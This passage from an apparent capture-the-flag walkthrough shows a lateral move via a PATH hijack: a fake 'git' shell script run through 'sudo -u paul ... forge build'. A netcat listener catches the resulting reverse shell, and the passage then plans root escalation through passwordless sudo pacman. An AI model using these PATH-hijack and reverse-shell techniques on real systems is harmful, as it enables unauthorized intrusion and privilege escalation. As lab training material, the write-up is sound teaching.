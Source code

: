 ```

[keira@blockblock shm]$ cp shell.sh git
[keira@blockblock shm]$ sudo -u paul PATH=.:$PATH /home/paul/.foundry/bin/forge build

```

It hangs, but at my `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.43 46866
[paul@blockblock shm]$ 

```

## Shell as root

### Enumeration

paul can run `pacman` as any user without a password using `sudo`:

```

[paul@blockblock ~]$ sudo -l
User paul may run the following commands on blockblock:
    (ALL : ALL) NOPASSWD: /usr/bin/pacman

```

### PacMan Exploitation

#### Background

`pacman` is the [package manager for Arch Linux](https://wiki.archlinux.org/title/Pacman). Much like `apt` on Debian based OSes, or `yum` on Redhat-based ones, it installs applications from repositories.

[This page](https://wiki.archlinux.org/title/Creating_packages) from the Arch wiki talks about how to create a package. [This page](https://wiki.archlinux.org/title/PKGBUILD) talks about the `PKGBUILD` file. I found [this tutorial](https://docs.vultr.com/building-packages-on-arch-linux) from Vultr helpful as well.

There are numerous ways to exploit this. I’ll show three strategies (each of which has multiple ways to exploit):

```

flowchart TD;
    subgraph identifier[" "]
      direction LR
      start1[ ] --->|intended| stop1[ ]
      style start1 height:0px;
      style stop1 height:0px;
      start2[ ] --->|unintended| stop2[ ]
      style start2 height:0px;
      style stop2 height:0px;
    end
    A[Shell as paul]-->B("<a href='#file-write-in-package'>File Write\nin package()</a>");
    B-->C[Shell as root];
    A-->D(<a href='#install-script'>install Script</a>);
    D-->C;
    A-->E(<a href='#hookdir'>--hookdir</a>);
    E-->C;

```